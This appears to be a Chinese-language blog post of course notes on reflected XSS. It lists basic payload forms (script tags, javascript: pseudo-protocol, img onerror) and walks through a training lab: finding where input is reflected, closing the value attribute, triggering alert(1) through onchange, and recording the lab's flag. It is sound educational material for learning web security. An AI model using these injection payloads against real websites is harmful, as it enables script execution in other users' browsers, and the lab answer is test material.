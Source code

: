 ```yaml
---
layout: post
title: 反射性 XSS
categories: [XSS]
description: 反射性 XSS
keywords: XSS
---
```


# 反射性 XSS 利用方式

```
			Js的标识：弹窗：alert(1)
				标签风格：<script>alert(1)</script>
				伪协议触发：<a href=javascript:alert(1)>1</a>	(伪协议:) http:// ftp:// 小众协议：php:// 
				事件方法：<img src=1 onerror=alert(1) />
				(触发器：事件) 在标签里面on开头的东西很高概率是事件
```

## 课后习题

> http://59.63.200.79:8002/xss/index.php


**1. 确认输出**

在 input 框中随意输入字符， 使用  **查看源代码** ， 寻找可利用位置。

![](https://nc0.cdn.zkaq.cn/md/8461/fb909d7a3db8028c64d1fcdef3a0be2c_49556.png)

可以看到 ， 在 12行 ， 14 行出现了 输入的 123。 因此可以在这两点上测试利用。


**2. 使用 `标签风格闭合` 构建 js弹窗**

```html
' onchange="<script>alert(1)</script"> >
```

```html
<input name=keyword  value='123' onchange=&lt;script&gt;alert(1)&lt;/script&gt; &gt;'>
```

可以看到 value 的单引号已经被闭合， 并且创建了 `onchange` 事件。 但是由于 `<>` 被编码， 因此没有实现弹窗所需要的 js 代码。

![](https://nc0.cdn.zkaq.cn/md/8461/a8b5a48f403de8a98eebb6792b24f678_55770.png)


**3.  使用 `伪代码方式构建`  js 弹窗***

```html
123' onchange=javascript:alert(1) > //
```

```html
<input name=keyword  value='123' onchange=javascript:alert(1) &gt; // '>

```

从源代码可以看到， 已经通过 **onchange** 实现了 **js 伪代码** 的弹窗触发器。

条件是 ： input 框中的内容发生**变更**

![](https://nc0.cdn.zkaq.cn/md/8461/a09fa2130e969c16e198ab1b9f1273f3_36248.png)


**4. 触发**

随便修改输入框中的内容， 将鼠标移到框外任意地方点击。

alert 弹窗出现。 

![](https://nc0.cdn.zkaq.cn/md/8461/c94619f30a742363a05453ddeface9de_71733.png)

> flag: flag{zkaq-xssgood-Q0OA}
